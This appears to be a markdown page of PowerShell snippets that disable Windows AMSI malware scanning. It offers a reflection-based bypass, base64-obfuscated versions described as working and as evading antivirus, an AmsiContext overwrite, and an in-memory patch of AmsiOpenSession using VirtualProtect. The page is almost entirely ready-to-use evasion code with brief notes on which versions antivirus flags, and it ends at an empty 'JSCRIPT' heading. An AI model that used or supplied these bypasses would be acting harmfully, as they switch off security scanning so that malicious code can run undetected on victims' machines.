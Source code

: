 # Powershell 
<br>

### Disables AMSI by attacking initialization 
<br>

``` powershell

$loc = 'System.Management.Automation.AmsiUtils'
$field = 'amsiInitFailed'
$GT = [Ref].Assembly.GetType($loc).GetField($field,'NonPublic,Static')
$GT.SetValue($null,$true)

```

**Obfuscated WORKING AMSI bypass.  Same as above just obfuscated for ps1 script**

```powershell
$amut = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("UwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAVQB0AGkAbABzAA=="));$field = 'amsiInitFailed'; $GT = [Ref].Assembly.GetType($amut).GetField($field,'NonPublic,Static');$GT.SetValue("",$true)
```
<br>
<br>

### Disable AMSI by attacking AmsiContext and rewrite first 4 bytes to 0000  
<br>

``` powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like ("*i" + "Utils")) {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

```
<br><br>

**Above is flagged by AV.  This is not but this also doesnt block anything AMSI for me....**

``` powershell
$find = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("KgBpAFUAdABpAGwAcwA=")); $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like $find) {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

### Disable AMSI by patching internals (This attack only seems to work for me when pasting into powershell.  Not loading a ps1 file 

**After performing this attack make sure to reset the memory back to its old read/execute permissions**

``` powershell

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)

```
<Br><br>

``` powershell


function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('Xyxtem.dll'.Replace('X','S').Replace('x','s')) }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

function x0r {

    param (
        $buf,
        $xorKey
    )
    [Byte[]] $xorBuf = @()
    for ($i = 0; $i -lt $buf.Length; $i++) {
    $xorByte = $buf[$i] -bxor $xorKey
    $xorBuf += [Byte]$xorByte
    }


 return $xorBuf

}


[IntPtr]$funcddr = LookupFunc amsi.dll AmsiOpenSession
$oldBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcddr, 3, 0x40, [ref]$oldBuffer)

$3buf = [Byte[]] (0x48, 0x31, 0xC0) 


[System.Runtime.InteropServices.Marshal]::Copy($3buf, 0, $funcddr, 3)


```


# JSCRIPT
